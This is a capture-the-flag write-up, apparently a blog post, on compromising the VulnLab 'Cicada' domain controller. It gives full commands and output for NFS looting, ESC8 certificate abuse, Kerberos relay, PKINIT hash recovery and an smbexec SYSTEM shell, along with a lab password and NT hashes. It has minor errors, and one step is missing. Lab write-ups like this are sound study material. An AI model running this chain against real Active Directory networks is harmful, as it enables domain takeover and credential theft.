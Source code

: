 ```yaml
---
layout: post
title: "Cicada"
categories: [VulnLab]
date: 2025-04-26
tags: [ADCS, Certicate, nfs]
image: assets/img/cicada_slide.png
---
```


Cicada is a machine on the VulnLab platform with medium difficulty. This machine, which involves ESC8 and Kerberos relaying, is quite interesting



Let's start with a classic Nmap scan:

```zsh
➜  cicada nmap -p- --min-rate 1000 10.10.79.184 -oN port.txt 
# Nmap 7.95 scan initiated Tue Apr 22 15:24:56 2025 as: /usr/lib/nmap/nmap --privileged -p- -oN port.txt 10.10.79.184
Nmap scan report for cicada.vl (10.10.79.184)
Host is up (0.091s latency).
Not shown: 65509 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
111/tcp   open  rpcbind
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
2049/tcp  open  nfs
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
9389/tcp  open  adws
49664/tcp open  unknown
49667/tcp open  unknown
49671/tcp open  unknown
49672/tcp open  unknown
49677/tcp open  unknown
57742/tcp open  unknown
57778/tcp open  unknown
57795/tcp open  unknown
57914/tcp open  unknown
```

We immediately noticed an NFS share and decided to mount it to check its contents

```zsh
➜  cicada showmount -e cicada.vl
Export list for cicada.vl:
/profiles (everyone)
```

Let's mount it.

```zsh             
➜  cicada sudo mount -t nfs cicada.vl:/profiles share
```

```zsh 
➜  share ls
Administrator  Daniel.Marshall  Debra.Wright  Jane.Carter  Jordan.Francis  Joyce.Andrews  Katie.Ward  Megan.Simpson  Richard.Gibbons  Rosie.Powell  Shirley.West
```

Instead of checking them one by one, we use the tree command to get an overview of all the files.

```zsh
➜  share sudo tree
.
├── Administrator
│   ├── Documents
│   │   ├── $RECYCLE.BIN
│   │   │   └── desktop.ini
│   │   └── desktop.ini
│   └── vacation.png
├── Daniel.Marshall
├── Debra.Wright
├── Jane.Carter
├── Jordan.Francis
├── Joyce.Andrews
├── Katie.Ward
├── Megan.Simpson
├── Richard.Gibbons
├── Rosie.Powell
│   ├── Documents
│   │   ├── $RECYCLE.BIN
│   │   │   └── desktop.ini
│   │   └── desktop.ini
│   └── marketing.png
└── Shirley.West

16 directories, 6 files
```
We found that a password was visible in a photo. We really appreciate such irresponsible behaviors on shares like this. :)


<figure><img src="../assets/img/CICADA-1.png" alt=""><figcaption></figcaption></figure>


```zsh
➜  cicada netexec smb cicada.vl -u Rosie.Powell -p <REDACTED>
SMB         10.10.119.56    445    10.10.119.56     [*]  x64 (name:10.10.119.56) (domain:10.10.119.56) (signing:True) (SMBv1:False)
SMB         10.10.119.56    445    10.10.119.56     [-] 10.10.119.56\Rosie.Powell:<REDACTED> STATUS_NOT_SUPPORTED 
➜  cicada netexec smb cicada.vl -u Rosie.Powell -p <REDACTED> -k
SMB         cicada.vl       445    cicada           [*]  x64 (name:cicada) (domain:vl) (signing:True) (SMBv1:False)
SMB         cicada.vl       445    cicada           [-] vl\Rosie.Powell:<REDACTED> [Errno Connection error (VL:88)] [Errno -2] Name or service not known
➜  cicada netexec ldap cicada.vl -u Rosie.Powell -p <REDACTED> -k
LDAP        cicada.vl       389    DC-JPQ225.cicada.vl [*]  x64 (name:DC-JPQ225.cicada.vl) (domain:cicada.vl) (signing:True) (SMBv1:False)
LDAP        cicada.vl       389    DC-JPQ225.cicada.vl [+] cicada.vl\Rosie.Powell:<REDACTED>
```

As seen, we couldn't authenticate over SMB, even using the -k option. However, we managed to authenticate via LDAP and obtained a TGT ticket for it


```zsh
➜  cicada impacket-getTGT cicada.vl/Rosie.Powell@cicada.vl
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Password:
[*] Saving ticket in Rosie.Powell@cicada.vl.ccache
➜  cicada export KRB5CCNAME=Rosie.Powell@cicada.vl.ccache 
```

We saw the CertEnroll folder in the share. This indicates that ADCS is likely installed on this machine as well.


```zsh
➜  cicada impacket-smbclient cicada.vl/Rosie.Powell@DC-JPQ225 -k -no-pass   
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Type help for list of commands
# shares
ADMIN$
C$
CertEnroll
IPC$
NETLOGON
profiles$
SYSVOL
```

We verified this with Netexec.

```zsh
➜  cicada netexec ldap cicada.vl -u Rosie.Powell -p Cicada123 -k -M adcs
LDAP        cicada.vl       389    DC-JPQ225.cicada.vl [*]  x64 (name:DC-JPQ225.cicada.vl) (domain:cicada.vl) (signing:True) (SMBv1:False)
LDAP        cicada.vl       389    DC-JPQ225.cicada.vl [+] cicada.vl\Rosie.Powell:Cicada123 
ADCS        cicada.vl       389    DC-JPQ225.cicada.vl [*] Starting LDAP search with search filter '(objectClass=pKIEnrollmentService)'
ADCS        cicada.vl       389    DC-JPQ225.cicada.vl Found PKI Enrollment Server: DC-JPQ225.cicada.vl
ADCS        cicada.vl       389    DC-JPQ225.cicada.vl Found CN: cicada-DC-JPQ225-CA
```

Then, we used Certipy-AD and noticed the ESC8 vulnerability. Despite trying on the Linux side, I couldn't succeed in exploiting it. For this, I used my own Commando VM (Windows) moving forward

```zsh
➜  cicada certipy-ad find -u Rosie.Powell -vulnerable -stdout -k -no-pass -target DC-JPQ225 
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[*] Trying to get CA configuration for 'cicada-DC-JPQ225-CA' via CSRA
[!] Got error while trying to get CA configuration for 'cicada-DC-JPQ225-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'cicada-DC-JPQ225-CA' via RRP
[*] Got CA configuration for 'cicada-DC-JPQ225-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : cicada-DC-JPQ225-CA
    DNS Name                            : DC-JPQ225.cicada.vl
    Certificate Subject                 : CN=cicada-DC-JPQ225-CA, DC=cicada, DC=vl
    Certificate Serial Number           : 69E85693900661A04FCC9DA3C368321A
    Certificate Validity Start          : 2025-04-23 04:25:12+00:00
    Certificate Validity End            : 2525-04-23 04:35:12+00:00
    Web Enrollment                      : Enabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : CICADA.VL\Administrators
      Access Rights
        ManageCertificates              : CICADA.VL\Administrators
                                          CICADA.VL\Domain Admins
                                          CICADA.VL\Enterprise Admins
        ManageCa                        : CICADA.VL\Administrators
                                          CICADA.VL\Domain Admins
                                          CICADA.VL\Enterprise Admins
        Enroll                          : CICADA.VL\Authenticated Users
    [!] Vulnerabilities
      ESC8                              : Web Enrollment is enabled and Request Disposition is set to Issue
Certificate Templates                   : [!] Could not find any certificate templates
```

Of course, checking the MachineAccountQuota is important.

```zsh
➜  cicada netexec ldap cicada.vl -u Rosie.Powell -p Cicada123 -k -M maq         
LDAP        cicada.vl       389    DC-JPQ225.cicada.vl [*]  x64 (name:DC-JPQ225.cicada.vl) (domain:cicada.vl) (signing:True) (SMBv1:False)
LDAP        cicada.vl       389    DC-JPQ225.cicada.vl [+] cicada.vl\Rosie.Powell:Cicada123 
MAQ         cicada.vl       389    DC-JPQ225.cicada.vl [*] Getting the MachineAccountQuota
MAQ         cicada.vl       389    DC-JPQ225.cicada.vl MachineAccountQuota: 10
```


What we did here was import the .ovpn file provided by VulnLab into the OpenVPN client and join our VM to the cicada.vl domain.  
**Note**: 
> For this, it's important to change the DNS address of the OpenVPN Ethernet interface to match the DNS address of the cicada machine.



Here, we will use [RemoteKerbRelay](https://github.com/CICADA8-Research/RemoteKrbRelay), a tool that automates the entire process. It has not been released yet, so we need to build it using Visual Studio.


The command is like the one in the photo below:


<figure><img src="../assets/img/command.png" alt=""><figcaption></figcaption></figure>

Next, we transfer the PKCS12 certificate to Linux and encode it using base64


```zsh
➜  cicada cat cicada.pkcs12 | base64 -d > cert_auth
```

We can authenticate via PKINIT:

```zsh
➜  cicada certipy-ad auth -pfx cert_auth -dc-ip 10.10.112.64 -domain cicada.vl
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: dc-jpq225$@cicada.vl
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'dc-jpq225.ccache'
[*] Trying to retrieve NT hash for 'dc-jpq225$'
[*] Got hash for 'dc-jpq225$@cicada.vl': aad3b435b51404eeaad3b435b51404ee:9a7488fcd7aa4bb34eaac4841115dc9a
```

Then, we find that we have obtained the krbtgt user's ccache file

```zsh
➜  cicada export KRB5CCNAME=dc-jpq225.ccache
```

```zsh
➜  cicada klist
Ticket cache: FILE:dc-jpq225.ccache
Default principal: dc-jpq225$@CICADA.VL

Valid starting     Expires            Service principal
04/26/25 18:05:36  04/27/25 04:05:36  krbtgt/CICADA.VL@CICADA.VL
	renew until 04/27/25 18:05:26
```


```zsh
➜  cicada impacket-getTGT cicada.vl/administrator@DC-JPQ225 -hashes :85a0da53871a9d56b6cd05deda3a5e87
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in administrator@DC-JPQ225.ccache
```

```zsh
➜  cicada impacket-smbexec cicada.vl/administrator@dc-jpq225 -k -no-pass
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>whoami
nt authority\system
```
That's it!









